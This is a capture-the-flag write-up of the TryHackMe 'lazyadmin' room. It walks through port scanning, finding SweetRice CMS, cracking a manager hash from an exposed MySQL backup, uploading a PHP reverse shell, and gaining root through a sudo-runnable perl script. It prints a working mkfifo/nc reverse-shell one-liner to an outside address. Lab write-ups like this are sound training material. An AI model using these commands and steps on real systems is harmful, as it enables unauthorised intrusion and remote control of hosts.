 ```yaml
---

title: lazyadmin

difficulty: easy

date: "2023-05-17"

author: MatDef

  

---
```


# Information Gathering

  

### Nmap 

```bash
nmap 10.10.203.28 -sC -sV | tee nmap.log
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 14:21 EDT
Nmap scan report for 10.10.118.199
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds

```


## Enumeration

### Nikito

```bash
nikto -h http://10.10.203.28    

```
->nothing really interesting
### gobuster
```shell
gobuster dir -u http://10.10.203.28 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```
Found:
  `/content`
-> sweetrice CMS
```shell
searchsploit sweetrice
```
->SweetRice 1.5.1- Backup disclosure on '\http://10.10.203.28/content/inc/mysql_backup/'
-> SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution 
# Exploitation

mysqlbackup has manager password:
`manager:42f749ade7f9e195bf475f37a44cafcb`
crackstation:
`manager:Password123`

Cross-Site Request Forgery/PHP Code Execution
Able to put php code in Ads File
On `http://10.10.63.34/content/as/?type=ad&mode=save` and with manager credentials able to upload php file.
Created Pentestmonkey - php-reverse-shell with https://www.revshells.com/ and added to payload.

Got Access and user flag on `~/home/itguy`

# Privilege Escaltion
`sudo -l`
```shell
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
-> /home/itguy/backup.pl` runnable as without password`
```shell
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
copy.sh

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
-> reverseshell or just `echo "/bin/sh" > /etc/copy.sh`
Got Root Flag


  
  

---

  

# References

  

1. https://tryhackme.com/room/lazyadmin

  

<br>

  

___─ Written by MatDef ─___
